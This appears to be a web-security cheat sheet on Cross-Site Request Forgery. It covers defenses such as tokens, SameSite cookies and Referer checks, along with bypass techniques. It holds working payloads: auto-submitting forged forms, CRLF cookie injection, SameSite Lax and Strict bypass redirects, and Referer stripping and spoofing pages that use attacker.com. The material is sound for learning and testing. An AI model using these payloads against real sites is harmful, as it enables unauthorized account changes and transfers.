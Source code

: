 ```yaml
---
title: "Cross-Site Request Forgery (CSRF)"
weight: 8
description: "Learn what CSRF attacks are, how they work with real examples, and how to defend against them using CSRF tokens, SameSite cookies, and referer validation."
---
```


# Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) is a type of web attack where a malicious site tricks a user into performing actions on another site where they're authenticated. For example, it could change a user's email or send money—without their consent.

## How CSRF Attacks Work

An attacker can trick a logged-in user into submitting unwanted requests.

### POST-Based Attack

```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### GET-Based Attack

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## CSRF Defenses

{{< details summary="CSRF Tokens" >}}

A CSRF token is a unique and unpredictable value generated by the server. It must be submitted with sensitive requests (like changing an email). This ensures the request comes from a legitimate user.

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
  <label>Email</label>
  <input required type="email" name="email" value="example@normal-website.com">
  <input required type="hidden" name="csrf" value="unique-random-token">
  <button type="submit">Update Email</button>
</form>
```

{{< hint style=notes >}}
CSRF tokens should be tied to the user's session and checked on the server.
{{< /hint >}}

{{< /details >}}

{{< details summary="SameSite Cookies" >}}

SameSite is a cookie attribute that controls whether cookies are sent with cross-site requests.

- `Strict`: Only sent in same-site requests (most secure).
- `Lax`: Sent on same-site and top-level GET requests (default in most modern browsers).
- `None`: Sent in all requests but must be marked `Secure`.

{{< /details >}}

{{< details summary="Referer Header Validation" >}}

Some applications check the `Referer` header to verify that requests are coming from their own domain. This can help prevent CSRF attacks—but it's not foolproof.

{{< hint style=warning >}}
Don't rely solely on referer validation. Users or browsers may strip or modify this header.
{{< /hint >}}

{{< /details >}}

## CSRF Token Bypass Techniques

- Switch from `POST` to `GET`
- Remove the CSRF token parameter
- Use a predictable or fake token
- Use Burp Sequencer to analyze the quality of randomness of the token 
- Reuse a token from your own session (if the app doesn't check the token-user binding)
- There are two token: one in a cookie and one in hidden input (this can also have the same value)
  - Some apps do tie the CSRF token to a cookie, but not to the session cookie.
  - Can you set a cookie? E.g. Header injection with `CRLF`.(`%0d%0a`)
  - ```sh
    /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
    ```
  - Log in to the application with your account -> obtain a valid token and associated cookie.
  - Generate CSRF PoC and remove the auto-submit `<script>` block. Then add the following code to inject the cookie.

  ```html
  <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
  ```

## Bypassing SameSite Protections

### Bypassing Lax Mode

- Using GET requests (bypass lax)

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

- GET method override (bypass lax)
  - Even if an ordinary `GET` request isn't allowed, some frameworks supports `_method` parameter. (Other frameworks support a variety of similar parameters)
  - ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```


### Bypassing Strict Mode

Use a client-side redirect:

```javascript
// On page: https://vulnerable-website.com/post/confirm?postId=10
redirectOnConfirmation = () => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post/' + postId;
    }, 3000);
}
```

Now trigger redirect to a sensitive endpoint:

```html
<script>
    document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
</script>
```

{{< hint style=notes >}}
**Note**: this attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.
{{< /hint >}}

## Bypassing Referer Validation

### Strip the Referer

Some apps validate the Referer header if present, but skip if omitted:

```html
<meta name="referrer" content="never">
```

This prevents the browser from sending the `Referer` header.

### Fake the Referer

Common tricks include using subdomains or path tricks:

```md
http://vulnerable-website.com.attacker.com/csrf
http://attacker.com/csrf?vulnerable-website.com
```

You need to add `Referrer-Policy` to `unsafe-url`:

```html
<meta name="referrer" content="unsafe-url" />
```

{{< hint style=tips >}}
**Tip**: Instead of use `http://attacker-website.com/vulnerable-website.com`, you can use `http://attacker-website.com/` and add `<script>history.pushState('', '', '/vulnerable-website.com')</script>`

```html
<!-- http://attacker-website.com/ -->
<html>
  <meta name="referrer" content="unsafe-url"/>
  <body>
    <form action="https://vulnerable-website.com/change-email" method="POST">
      <input type="hidden" name="email" value="test@test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/vulnerable-website.com');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
{{< /hint >}}

Firefox 87 new default Referrer Policy `strict-origin-when-cross-origin` trimming user sensitive information like path and query string to protect privacy \[[🔗](https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/)] .
